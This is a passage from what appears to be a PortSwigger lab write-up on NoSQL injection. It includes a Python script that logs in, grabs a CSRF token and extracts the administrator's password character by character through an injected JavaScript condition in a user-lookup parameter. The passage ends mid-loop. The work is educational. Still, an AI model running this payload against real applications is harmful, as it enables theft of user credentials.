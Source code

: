 **However, let's see if we still be able to lookup any user without authentication:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-3/images/Pasted%20image%2020231009152019.png)

Nope. So we need to be authenticated.

**Therefore, we can write the following script:**
```python
import requests
from bs4 import BeautifulSoup
from string import ascii_letters

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.Session()

    def getCSRFToken(self):
        print('[*] Fetching the CSRF token...')
        global LOGIN_ENDPOINT
        LOGIN_ENDPOINT = '/login'
        csrfTokenRespond = self.session.get(f'{self.baseUrl}{LOGIN_ENDPOINT}')
        
        soup = BeautifulSoup(csrfTokenRespond.text, 'html.parser')
        csrfToken = soup.find('input', {'name':'csrf'}).get('value')
        sessionCookie = self.session.cookies.get_dict()['session']
        print(f'[+] Fetched the CSRF token: {csrfToken}')
        print(f'[+] Session cookie: {sessionCookie}')
        return csrfToken

    def login(self):
        csrfToken = self.getCSRFToken()
        username = 'wiener'
        password = 'peter'
        loginData = {
            'csrf': csrfToken,
            'username': username,
            'password': password
        }
        print('[*] Logging in to the web application...')
        loginRespond = self.session.post(f'{self.baseUrl}{LOGIN_ENDPOINT}', data=loginData)
        if loginRespond.status_code == 400:
            print('[-] Login failed... Maybe the CSRF token is incorrect?')
            print(f'[-] Response text:\n{loginRespond.text}')
            exit(1)
        print('[+] Login successfully!')

    def extractData(self):
        USER_LOOKUP_ENDPOINT = '/user/lookup'
        USER_LOOK_PARAMETER = 'user'
        TARGET_USERNAME = 'administrator'
        LAST_CHARACTER = ascii_letters[-1]
        print(f'[*] Extracting {TARGET_USERNAME}\'s password...')
        password = ''
        stringPosition = 0
        while True:
            for character in ascii_letters:
                print(f'[*] Trying character "{character}"...', end='\r')
                payload = requests.utils.quote(f"{TARGET_USERNAME}' && this.password[{stringPosition}] == '{character}' || 'a'=='b")
                userLookupRespond = self.session.get(f'{self.baseUrl}{USER_LOOKUP_ENDPOINT}?{USER_LOOK_PARAMETER}={payload}')
                userLookupRespondJson = userLookupRespond.json()
                isLastCharacter = character == LAST_CHARACTER
```